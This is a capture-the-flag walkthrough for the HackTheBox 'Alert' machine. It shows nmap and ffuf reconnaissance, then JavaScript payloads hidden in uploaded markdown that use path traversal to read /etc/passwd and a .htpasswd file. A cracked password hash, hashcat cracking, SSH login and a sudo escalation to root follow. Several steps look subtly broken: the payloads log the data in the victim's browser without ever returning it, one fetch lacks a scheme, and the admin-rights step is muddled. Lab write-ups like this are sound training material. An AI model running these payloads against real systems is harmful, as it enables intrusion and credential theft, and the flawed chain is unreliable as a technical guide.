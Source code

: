 # Alert

`Alert` is a Linux machine that is rated as easy. It is a great box for beginners and is a good way to get introduced to the platform. 

- **Difficulty:** Easy
- **OS:** Linux

[Alert](https://app.hackthebox.com/machines/Alert)

## `nmap`

We will begin by enumerating open services using `nmap`. 
We will find that there is a web server running on port 80. 

```bash
Nmap scan report for 10.129.128.62
Host is up (0.095s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://alert.htb/
12227/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> The web server can be accessed by visiting `http://alert.htb/` after adding the IP and Hostname to the `/etc/hosts` file.

This web server is a Markdown Viewer where you can upload and view markdown files.
This server also allow to contact the admin by sending a message.
There is also a About page and a Donate page.

## `ffuf`

Let's now, fuzz the web server using `ffuf` to find any hidden directories or virtual hosts.

1. Directories fuzzing

```bash
ffuf -u http://alert.htb/FUZZ -w /usr/share/wordlists/*
```

> We will find that there is a file named `messages.php` in the root directory.

2. Virtual Host fuzzing

```bash
ffuf -u http://FUZZ.alert.htb -w /usr/share/wordlists/* -H "Host: FUZZ.alert.htb"
```

> There is also a Virtual Host named `statistics.alert.htb` !

3. Virtual Host Directories fuzzing

```bash
ffuf -u http://statistics.alert.htb/FUZZ -w /usr/share/wordlists/*
```

> Many `.ht*` files are found in the root directory of the Virtual Host.
> This means it uses Apache !

## `Burp Suite`

Let's now intercept requests when uploading Markdown files and while sending a message to the admin.

1. Uploading Markdown file

- The file is uploaded to the `/uploads` directory.
- The file is processed with `.php` to view the content.
- The site proposed a link to share the file.

2. Sending a message to the admin

- The message is sent to the admin.
- The message is processed with a `GET` to it !?

## `LFI`

We can exploit a Local File Inclusion vulnerability to read the `/etc/passwd` file.
Let's write a Markdown file with a `JavaScript` payload to read the `/etc/passwd` file within `HTML` tags !

```markdown
<script>
    fetch('/messages.php?file=../../../etc/passwd')
    .then(response => response.text())
    .then(data => {
        console.log(data);
    });
</script>
```

Let's upload the file with the Markdown Viewer then copy the link to share it.
We will now send the link to the admin and intercept the request for getting his administrator rights !

> We will find that two users are present on the machine: `albert' and 'david'.

Let's try an other to read `statistic.alert.htb/.htpasswd` file !

```markdown
<script>
    fetch('statistics.alert.htb/.htpasswd')
    .then(response => response.text())
    .then(data => {
        console.log(data);
    });
</script>
```

> We will find that the `.htpasswd` file contains the credentials for the `albert` user !

```plaintext
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

## `hashcat`

We can crack the password hash using `hashcat` with the following command.

```bash
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

> The password is `manchesterunited`.

## User Flag

Let's now connect to the machine using the `albert` user.

```bash
ssh albert@alert.htb
```

> We can now read the `user.txt` file in the home directory of the `albert` user.

## Root Flag

Let's see what Albert can do.

```bash
sudo -l
```

> Albert can run everything ! Let's get the root flag !

```bash
sudo su
cd
cat root.txt
```

